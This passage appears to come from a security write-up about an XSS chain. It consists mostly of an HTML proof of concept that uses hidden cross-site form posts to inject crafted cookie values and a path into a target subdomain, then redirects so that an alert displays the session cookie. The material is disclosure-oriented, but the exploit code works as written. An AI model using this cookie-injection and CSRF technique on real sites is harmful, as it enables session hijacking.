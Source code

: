 [^3]: <https://www.chromestatus.com/feature/5633521622188032>

```html
<html>
  <body>
    <!-- iframes to use as targets for form submission, preventing redirection -->
    <iframe id="frame1" name="frame1"></iframe>
    <iframe id="frame2" name="frame2"></iframe>

    <!-- generate the request to set the 'lang' cookie with a value of `"';alert(csrf)//` to go at the end of the user's cookie header -->
    <form action="https://boring.xss.long.lat/lang.php" method="POST" id="cookie1" target="frame1">
      <input type="hidden" name="lang" value="z,&quot;'%3balert(csrf)//;SameSite=None;Secure" />
      <input type="hidden" name="csrf" value="ignored" />
    </form>

    <!-- generate the request to set the 'lang' cookie with a value of 'z,csrf="' and a path of '/index.php' -->
    <form action="https://boring.xss.long.lat/lang.php" method="POST" id="cookie2" target="frame2">
      <input type="hidden" name="lang" value="z,csrf=&quot;;Path=/index.php;SameSite=None;Secure" />
      <input type="hidden" name="csrf" value="ignored" />
    </form>

    <!-- fire it all off -->
    <script>
      let delay = 2000; // Number of milliseconds to wait for cookies to be set before trying to trigger the XSS

      document.getElementById("cookie1").submit();
      document.getElementById("cookie2").submit();

      // Redirect to let the exploit fire
      setTimeout(() => {
        top.location.replace("https://boring.xss.long.lat/index.php");
      }, delay);
    </script>
  </body>
</html>
```

This will show the session cookie for <https://www.xss.long.lat> in an alert box:
![Is this a real blog post about XSS now?](/assets/2020-09-16-15-34-19.png)


[^1]: depending on if you consider the presence XSS on another subdomain to be usual or not
[^2]: in fact, this issue was resolved by the program removing the website